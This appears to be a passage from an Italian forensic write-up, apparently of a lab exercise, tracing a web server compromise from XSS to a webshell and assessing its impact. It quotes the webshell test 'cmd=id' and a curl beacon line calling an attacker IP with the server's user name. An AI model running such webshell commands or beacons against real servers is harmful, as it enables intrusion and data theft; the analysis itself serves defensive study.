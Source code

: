 Questa richiesta è il test classico: l’attaccante passa un parametro cmd=id, e il file esegue il comando id sul sistema. Il server risponde con il risultato, confermando che la shell funziona. È il momento in cui l’attaccante ottiene il pieno Remote Code Execution sul server web01.
Ma non finisce qui. Alle 09:44:42, i log di audit mostrano un comando curl lanciato dal server stesso:
`curl -s http://203.0.113.77/ping?u=www-data`
Questa è la prova definitiva: la webshell ha eseguito un comando che contatta direttamente l’infrastruttura dell’attaccante, mandando un beacon con l’utente corrente del server (www-data). In pratica, è la conferma che l’attaccante ha trasformato il server in un proprio strumento.
Dal punto di vista difensivo, questa è una delle fasi più gravi. Il file shell.php permette all’attaccante di lanciare qualsiasi comando sul sistema, leggere e modificare file, scaricare malware o muoversi nella rete interna. Non è più solo un attacco applicativo: ora è una compromissione completa del server.

# Impatto / Effetti sul Sistema
Dopo l’installazione e l’uso della webshell, l’attaccante ha ormai pieno controllo del server web01. Non si tratta più solo di rubare cookie o manipolare account: ora può eseguire comandi di sistema, leggere file sensibili e muoversi liberamente.
Alle 10:10:55, noto un evento critico: un worker di php-fpm va in crash con un errore di segmentazione (“segfault in renderer”). Questo può avere due spiegazioni: o l’attaccante ha provato comandi particolarmente invasivi che hanno fatto crollare il processo, oppure il sistema era già instabile a causa delle manipolazioni precedenti. In ogni caso, il crash è un segnale che il server non è più affidabile.
Subito dopo, alle 10:11:01, un processo CRON legittimo esegue il backup del database giornaliero. A prima vista sembra normale attività di manutenzione, ma qui assume un significato particolare: mentre il server è compromesso, i backup rischiano di includere dati già manipolati o addirittura di essere esfiltrati dall’attaccante.
In sintesi: il sistema web01 non è più integro. La catena di eventi ... dall’XSS iniziale fino alla webshell .. porta a un impatto grave: perdita di controllo, rischio per i dati degli utenti e possibilità che l’attaccante usi il server come trampolino per attacchi futuri.


